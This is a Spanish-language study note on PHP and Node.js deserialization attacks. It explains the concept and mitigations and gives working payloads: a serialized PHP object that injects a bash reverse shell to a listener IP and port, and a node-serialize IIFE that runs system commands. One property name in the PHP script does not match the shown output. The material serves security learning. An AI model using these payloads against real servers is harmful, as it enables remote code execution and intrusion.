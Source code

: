 -----
- Tags: #ataques #teoria #practica #basico 
-----

# ¿ Que es la **serialización** ? 

La **serialización** es el proceso de cvonvertir un objeto en una secuencia de **bytes** que puede ser almacenada o transmitida a través de una red. La **deserialización** es el proceso inverso, en el que una secuencia de bytes es convertida de nuevo a un objeto. 

----

# ¿ Que es un **ataque de deserialización** ?

Los **ataques de deserialización** son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de **serialización** y **deserialización** de objetos en aplicaciones que utilizan la programacón orientada a objetos (**POO**)

Estos ataques ocurren cuando un atacante puede manipular los datos que se están deserializando, lo que puede llevar a [[RCE - (Remote Command Execution)]] en el servidor. 

Los **ataques de deserialización** pueden ocurrir en diferentes tipos de aplicaciones, incluyendo aplicaciones web, aplicaciones móviles y aplicaciones de escritorio. Estos ataques pueden ser explotados de varias maneras como: 

- ### Modificar el objeto serializado antes de que sea enviado a la aplicación, lo que puede causar errores en la deserialización y permitir que un atacante ejecute código malicioso. 
- ### Enviar un objeto serializado malicioso que aproveche una vulnerabilidad en la aplicación para ejecutar código malicioso.
- ### Realizar un ataque de **man-in-the-middle** para interceptar y modificar el objeto serializado antes de que llegue a la aplicación. 

------------

# Evitar estos ataques 

Para evitar estos tipos de ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserializaciópn seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para correfir posibles vulnerabilidades. 

----

# Explotación 

Estos ataques se pueden aconteser en muchos escenarios, por ejemplo, en aplicaciones web que tratan con NodeJS o PHP, por ejemplo, si detectaramos que la data interceptada con [[Burpsuite]] viaja de una manera serializada, podriamos comenzar a pensar en un **php deserilialisation attack**. 

La data interceptara por ejemplo se ve así:  `obj=O:8:"pingTest":1:{s:9:"ipAddress";s:9:"284781274";}&ip=284781274`

Y sabemos que por detras el código es el sig: 

```php
<?php
class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";
	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();
	}
	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }
}
if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}
$pingTest->validate();
```

Donde, tras analizar el código, podriamos pensar en que si lograramos hacer que el valor de ipAddress sea un comando de bash a la par que isValid sea True, estariamos con la posibilidad de inyectar comandos en el sistema a traves de un **Deserialization attack**. 

Podriamos crear un script de php imitando la funcionalidad del código que pudimos ver, para de esta manera recrear un **nuevo** objeto **serializado**.

```php
<?php 

class pingTest {
	public $ipadress = "; bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'";
	public $isValid = True; 
	public $output = ""; 
}

echo serialize(new pingTest);
```

Logrando así, obtener un obj serializado válido el cual nos envía una reverse shell, teniendo así, posiblidad de [[RCE - (Remote Command Execution)]]. 

##### `O:8:"pingTest":3:{s:9:"ipAddress";s:53:"; bash -c 'bash -i >& /dev/tcp/192.168.1.38/443 0>&1'";s:7:"isValid";b:1;s:6:"output";s:0:"";}`

----
#  Nodejs Deserialization attack (unserialize)
Ahora, en un escenario de un **node deserialization attack** podriamos hacer uso del concepto **IIFE (Inmediatly Invoked Function Exression)**, el cual consiste en la declaración de funciones que son ejecutadas en el mismo momento de la declaración, de manera que, si capturaramos por ejemplo, una cookie la cual es `eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=`, al decodearle veriamos la sig data serializada: 

`{"username":"dobliuw","country":"india","city":"bangalore"}`, mientras que en la web vemos un "Hello dobliuw", podemos deducir que si cambiamos esta data serializada, para que en lugar de donde dice "dobliuw" diga otra cosa que ingresemos nosotros, podrimaos intentar hacer uso de un **IIFE** para que a la hora de que se deserialize dicha data, se ejecute una instrucción de [[RCE - (Remote Command Execution)]]. 

```javascript
const serialize = require('node-serialize'); 

const payload = {
username: function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)},
country: "Argentina",
city: "Buenos Aires"
}

console.log(serialize.serialize(payload))

```

Esta función, que se encarga de serializar el payload, nos arrojaria lo sig: 

`{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}","country":"Argentina","city":"Buenos Aires"}`

De manera que nuestra función `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}` devera ser invocada indemediatamente agregado `()` alfinal de esta, 

**IIFE**: `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}()` 

De esta manera, cuando el servidor deserialize la data, gracias a nuestra **IIFE**, se ejecutara el comando del lado del servidor, dejandonos así posiblidad de [[RCE - (Remote Command Execution)]]. 
